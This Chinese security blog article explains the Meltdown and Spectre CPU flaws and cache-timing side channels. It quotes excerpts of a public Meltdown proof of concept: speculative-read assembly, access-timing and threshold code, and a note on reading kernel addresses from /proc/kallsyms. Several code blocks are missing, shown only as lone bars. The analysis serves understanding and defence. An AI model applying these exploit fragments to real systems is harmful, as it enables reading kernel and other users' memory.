

0x00 前言
2018伊始，两个芯片级漏洞Meltdown（熔断）、Spectre（幽灵）漏洞震惊的安全界。受影响的CPU包括Intel、AMD和ARM，基本囊括的消费级CPU市场的绝大部分。Meltdown漏洞可以在用户态越权读取内核态的内存数据，Spectre漏洞可以通过浏览器的Javascript读取用户态的内存数据。虽然这两个漏洞对个人PC影响有限，但是确摧毁了公有云的基石——用户可在虚拟机里可以无限制的读取宿主机或者其他虚拟机的数据。
0x01 背景知识
了解Meltdown和Spectre漏洞之前，首先要知道几个背景知识。现代CPU为了提高运算效率与运算速度，会采用以下的手段提高CPU运算速度：分支预测（branch prediction）、推测执行（speculation execution）和乱序执行（out-of-order execution）。
分支预测与推测执行
当包含CPU处理分支指令时就会遇到一个问题，根据判定条件的真/假的不同，有可能会产生跳转。此时CPU不会等待判定结果，而回预测出某一个条件分支去执行。
乱序执行
CPU遇到指令依赖的情况时，会转向下条不依赖的指令去执行。
0x02 Meltdown漏洞分析
Meltdown漏洞允许我们在用户态无限制的读取内核态的数据。我们来看一段代码
|
这段代码看上去并没有什么问题。因为在用户态的时候，在执行第一行代码时就会因为鉴权失败而停止执行后面的代码。
然而，当现代CPU执行这一段代码时，由于之前提到的特性，CPU为了加快运算速度，在执行完第一行代码后，在耗时的鉴权时，会执行第二行、第三行代码。当鉴权失败后，CPU会将状态回滚，当作后面的代码没有执行，此时用户态程序还是没法获取到内核态的数据。
但是，问题来了。CPU状态回滚后，缓存Cache并不会回滚，我们还是可以通过侧信道攻击（Side Channel Attack）来猜测内核态的数据。此时，我们还要知道两点：第一，当CPU访问一个地址时，若没有在缓存中则会将这个地址所在的内存页（4KB = 4096B）放入缓存中；第二，访问缓存数据的速度远大于访问内存。
这段代码在第一行取了kernel address存放的第一字节的数据，第二行将这个数据左移0xc位，相当于乘以4096，也就是4K。此时，这个数据就相当于一个内存页的index序号。第三行代码访问了这个地址，此时CPU会将这个内存页放入缓存中。接下来，我们遍历一下index从0到255号内存页，访问特别短的那个内存页的序号就是我们要猜测的数据。
下面，我们通过图解来展示一下这个漏洞的原理。
第一步，将kernel space address的第一字节放入rax的低8位，假设为0x20。
第二步，将rax的低8位左移0xc位，也就是0x20 * 4096。
第三步，访问rbx + rax也就是rbx + 0x20 * 4096，此时会将这个地址所在的内存页放入缓存中。
第四部，遍历rbx + index * 4096，若缓存命中，则说明此时的index就是rcx指向的内核态的第一字节数据。

此时，访问rbx + 0x20 * 4096命中缓存，所以rcx 指向内核态的第一字节数据为0x20 。
接下来，我们看看Github上放出的PoC代码https://github.com/paboldin/meltdown-exploit/ 。因为这个代码同时支持x86_64和i386，所以核心汇编代码有两段。
x86_64
asm volatile ("1:\n\t"".rept 300\n\t""add $0x141, %%rax\n\t"".endr\n\t""movzx (%[addr]), %%eax\n\t""shl $12, %%rax\n\t""jz 1b\n\t""movzx (%[target], %%rax, 1), %%rbx\n""stopspeculate: \n\t""nop\n\t":: [target] "r" (target_array),[addr] "r" (addr): "rax", "rbx");
i386
asm volatile ("1:\n\t"".rept 300\n\t""add $0x141, %%eax\n\t"".endr\n\t""movzx (%[addr]), %%eax\n\t""shl $12, %%eax\n\t""jz 1b\n\t""movzx (%[target], %%eax, 1), %%ebx\n""stopspeculate: \n\t""nop\n\t":: [target] "r" (target_array),[addr] "r" (addr): "rax", "rbx");接着，我们看看这个
PoC是如何判断是否命中Cache。首先get_access_time函数用来计算访问一个地址需要的时间。static inline intget_access_time(volatile char *addr){int time1, time2, junk;volatile int j;time1 = __rdtscp(&junk);j = *addr;time2 = __rdtscp(&junk);time1 = __rdtsc();j = *addr;_mm_mfence();time2 = __rdtsc();return time2 - time1;}接着通过计算缓存命中，和缓存未命中的时间得到一个阈值。
static voidset_cache_hit_threshold(void){long cached, uncached, i;if (0) {cache_hit_threshold = 80;return;}for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)cached += get_access_time(target_array);for (cached = 0, i = 0; i < ESTIMATE_CYCLES; i++)cached += get_access_time(target_array);for (uncached = 0, i = 0; i < ESTIMATE_CYCLES; i++) {_mm_clflush(target_array);uncached += get_access_time(target_array);}cached /= ESTIMATE_CYCLES;uncached /= ESTIMATE_CYCLES;cache_hit_threshold = mysqrt(cached * uncached);printf("cached = %ld, uncached = %ld, threshold %d\n",cached, uncached, cache_hit_threshold);}
给出我的机器上某次执行的结果cached = 37, uncached = 218, threshold 89 。明显可以看出，缓存命中需要的访问时间远远小于缓存未命中需要的时间。因此可以通过判断访问某个地址是否大于计算出的阈值来判断这个内存页是否被缓存过。
猜测的函数如下：
|
这个PoC是使用方法是meltdown addr length，从addr的地址里读取length的数据。这个PoC以读取/proc/version为例，/proc/version的实现方法较复杂，在此不详细解释。
这篇文章阐述了Linux内核如何渲染/proc/version文件的。所以，我们需要得到linux_proc_banner的基址。因为Linux存在ASLR，所以这个PoC用了一种投机取巧的方法，从/proc/kallsyms读了linux_proc_banner的地址，因此需要root权限。
最终执行结果如下:
|
不得不说，很牛逼！
0x03 Spectre漏洞分析
Spectre漏洞与Meltdown漏洞不同的是，Spectre漏洞允许读取本进程地址空间的任意数据。重要的是这个可以远程攻击，利用JIT的翻译机制，构造恶意Javascript代码来读取浏览器进程空间中别的网站的cookie等！就是一个超级UXSS！危害可见一斑。
其实Spectre存在两个漏洞，也就是两个CVE-2017-5753和CVE-2017-5715。其中CVE-2017-5715是分支预测注入漏洞BranchTarget Injection目前没发现公开的PoC，CVE-2017-5753是边界检查绕过漏洞BoundsCheck Bypass有公开的PoC，下面分析这段PoC 。
首先，我们来看一段代码
|
很明显，代码有边界检查，我们无法越界读取别的地址的数据。但是，在CPU执行判断时，CPU会通过预测执行来执行temp &= array2[array1[x] * 512]。 最后，因为判断不成立，所以状态回滚。根据Meltdown中的知识，我们可以知道，访问array1[x]和array2[array1[x] * 512]后，会将这两个数据缓存下来，而且回滚后缓存不清除。此时array2[array1[x] * 512]所在的物理页会被缓存，我们只需要遍历0 - 255即可猜到array1[x]的值。
0x04 侧信道攻击
之前tombkeeper教主曾在QCon2017的演讲《代码未写，漏洞已出——架构和设计的安全》中讲过一个例子，在Java 6.0时代，在信息摘要类中有一个函数isEqual用来验证HMAC等数据，它的实现如下：
|
这个函数看来貌似没有什么问题，但是我们假设digestb是我们已有的密钥，digesta是用户传入的密钥。程序匹配到两个密钥相同位不等的时候会退出。但是只要我们一位一位去猜，就可以利用微小的时间差将猜测速度提升无数倍。
在2017年年初，就有一篇论文ASLR on the Line: Practical Cache Attacks on the MMU描述了通过Javascript侧信道攻击绕过系统的ASLR。
可见这种平常我们不会注意到的问题越来越成为了计算机安全的一种威胁。
0x05 总结
其实，侧信道攻击说到底还是设计上的缺陷，在为速度考虑的同时也需要考虑安全因素。
在计算机中处理的数据，除了关注类型、长度、内容，还要考虑时间因子。什么时候时间开始，什么时候时间结束，持续多久，这些往往会影响安全。
–Tombkeeper